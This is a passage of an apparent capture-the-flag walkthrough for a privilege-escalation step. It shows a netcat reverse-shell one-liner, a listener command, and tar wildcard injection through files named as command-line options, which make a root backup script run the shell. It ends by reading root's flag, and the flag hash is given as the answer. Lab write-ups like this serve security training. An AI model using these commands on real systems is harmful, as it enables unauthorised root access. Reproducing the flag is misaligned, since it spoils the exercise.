 - First
	- Check the milesdyson home
	- Open backup.sh
	- We can see this script performs 2 actions
		- First : move to /var/www/html
		- Second: uses tar
	- check the website : https://gtfobins.github.io/gtfobins/tar/
	
    - Second
		- Perform same actions as the backup.sh
		- Move to var/www/html
		- Launch a listener
        ```
		nc -nlvp [PORT]
        ```

		- Create 3 files
			- shell.sh based on the first method of exploiting wildcart for privilege escalation (https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

            ```
		    echo "mkfifo /tmp/lhennp; nc [Your IP] [Port] 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
			echo "" > "--checkpoint-action=exec=sh shell.sh"
		    echo "" > "--checkpoint=1"
            ```

		- Wait few seconds and you'll obtain the shell
        ```
		cat /root/root.txt
        ```
**Answer**
###### 3f0372db24753accc7179a282cd6a949
